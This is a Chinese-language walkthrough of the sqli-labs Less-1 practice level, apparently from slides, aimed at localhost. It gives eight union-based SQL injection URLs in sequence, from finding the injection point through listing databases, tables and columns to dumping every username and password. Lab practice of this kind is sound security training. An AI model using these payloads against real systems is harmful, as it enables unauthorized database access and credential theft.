

1. http://127.0.0.1/sqli/Less-1/?id=1’     查看是否有注入
2.   http://127.0.0.1/sqli/Less-1/?id=1‘ order by 3--+   查看有多少列
3.  http://127.0.0.1/sqli/Less-1/?id=-1‘ union select 1,2,3--+ 查看哪些数据可以回显
4. http://127.0.0.1/sqli/Less-1/?id=-1‘ union select 1,2,database()--+  查看当前数据库
5. http://127.0.0.1/sqli/Less-1/?id=-1‘ union select 1,2,schema_name from information_schema.schemata limit 4,1--+  查看数据库security，或者是：   http://127.0.0.1/sqli/Less-1/?id=-1’ union select 1,2,group_concat(schema_name) from information_schema.schemata--+ 查看所有的数据库
6. http://127.0.0.1/sqli/Less-1/?id=-1‘ union select 1,2,table_name from information_schema.tables where table_schema=0x7365637572697479 limit 1,1--+ 查表，或者是：http://127.0.0.1/sqli/Less-1/?id=-1’ union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479--+ 查看所有的表
7. http://127.0.0.1/sqli/Less-1/?id=-1‘ union select 1,2,column_name from information_schema.columns where table_name=0x7573657273--+ 查询列信息，或者是：http://127.0.0.1/sqli/Less-1/?id=-1’ union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273--+ 查看所以的列信息
8. http://127.0.0.1/sqli/Less-1/?id=-1‘ union select 1,2,concat_ws(’~‘,username,password) from security.users limit 1,1--+ 查询一个账号和密码，或者是：http://127.0.0.1/sqli/Less-1/?id=-1’ union select 1,2,group_concat(concat_ws(0x7e,username,password)) from security.users --+ 直接可以得到所有的账号和密码，并且使用~符号进行分割。
# Less-1